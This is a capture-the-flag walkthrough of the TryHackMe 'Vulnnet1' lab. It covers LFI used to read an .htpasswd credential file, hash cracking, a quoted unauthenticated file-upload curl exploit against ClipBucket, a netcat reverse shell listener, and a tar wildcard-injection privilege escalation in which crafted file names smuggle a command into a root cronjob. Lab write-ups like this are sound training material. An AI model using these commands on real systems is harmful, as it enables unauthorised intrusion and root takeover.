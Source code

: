 ```yaml
---
title: THM Vulnnet1
author: hanhctf
date: 2023-04-06 22:22:22 +0700
categories: [Write-up, THM]
tags: [php]
toc: true
mermaid: true
---
```


# [**_Vulnnet1 room_**](https://tryhackme.com/room/vulnnet1)

## Nmap

With Nmap, see 2 ports open
![](/commons/THM/Vulnnet1/1.nmap.png)

## Analyz the webpage

***View the source of the home page, we see 2 Js files.***  
Check domain vulnnet.thm in them. We found something interesting.

1. Subdomain ```<http://broadcast.vulnnet.thm>```
2. A path URL `referer` ```http://vulnnet.thm/index.php?referer=``` ==> LFI

![](/commons/THM/Vulnnet1/2.LFI-vuln.png)  

## Foothold

With dirsearch, we found some files.
![](/commons/THM/Vulnnet1/3.dirsearch.png)

==> Find credential in `/etc/apache2/.htpasswd`
![](/commons/THM/Vulnnet1/4.htpasswd.png)

Crack hash with JTR
![](/commons/THM/Vulnnet1/5.crack-hash.png)

With this credential of developers, we can access ```http://broadcast.vulnnet.thm```

webpage with title ClipBucket v4.0
Quick research in exploit-DB ==> [Exploit](https://www.exploit-db.com/exploits/44250)

```
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the web server with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

Furthermore, this vulnerability is also available to authenticated users with
basic privileges:

$ curl --cookie "[--SNIP--]" -F
"coverPhoto=@valid-image-with-appended-phpcode.php"
"http://$HOST/edit_account.php?mode=avatar_bg"   
```

![](/commons/THM/Vulnnet1/6.file-upload.png)

In the terminal, we listen with `nc -nlvp 9001`
And browser ```<http://broadcast.vulnnet.thm/actions/><file_directory>/<filename>.php```

![](/commons/THM/Vulnnet1/7.www-data.png)

Upload `linpeas.sh` to the target machine.  
Run `linpeas.sh`, we found an interesting backup file.  
![](/commons/THM/Vulnnet1/8.svr-man-backup.png)

Download the file to attack the machine.
With JRT --> credential of server-management
![](/commons/THM/Vulnnet1/9.svr-man-cred.png)

**Got user.txt**

## Privilege escalation  

Run `linpeas.sh`, we see a cronjob with root user  
![](/commons/THM/Vulnnet1/10.cronjob.png)  
![](/commons/THM/Vulnnet1/11.code-cronjob.png)  

THIS PROGRAM IS MAKING A BACKUP USING THE **TAR** COMMAND OF THE Documents FOLDER
LETS CHECK GTFOBINS  

```shell
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh pwn.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > pwn.sh  
```

![](/commons/THM/Vulnnet1/12.pwn.png)  

**Got root.txt**
